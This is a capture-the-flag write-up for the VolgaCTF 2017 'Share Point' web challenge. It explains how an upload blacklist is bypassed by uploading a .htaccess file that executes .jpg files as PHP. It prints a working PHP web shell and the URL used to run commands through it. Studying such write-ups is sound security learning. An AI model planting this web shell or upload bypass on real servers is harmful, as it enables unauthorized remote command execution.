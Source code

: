 # Volga CTF Quals 2017 Share Point
### Category: Web, 200 points

> Look! I wrote a good service for sharing your files with your friends, enjoy)
> share-point.quals.2017.volgactf.ru

### Write-up
The share point web application is written in php and enables users to upload and share files. To solve this challenge 
we need to upload a php shell to the server. The upload form is blacklisting some extensions, such as .php and .html. Chaning the
Content-Type in the HTTP POST request doesn't work. We also tried null terminating the filename by adding characters such as 
\0, %00, " to the end of the file. 

The web server is however running apache and allows us to upload a .htaccess file, we can use htaccess to execute other
file extensions as php. If we want to treat .jpg files as PHP we can upload the .htaccess file below:
```
AddType application/x-httpd-php .jpg
```

After this we uploaded shell.jpg contaning:
```php
<?php
if(isset($_REQUEST['cmd'])){
echo "<pre>";
$cmd = ($_REQUEST['cmd']);
system($cmd);
echo "</pre>";
die;
}
?>
```
We can now execute shell commands with:
http://share-point.quals.2017.volgactf.ru/files/$USERNAME/shell.jpg?cmd=ls

After running "find / -iname \*flag\*" the file /opt/flag.txt was found
> VolgaCTF{AnoTHer_apPro0Ach_to_file_Upl0Ad_with_PhP}

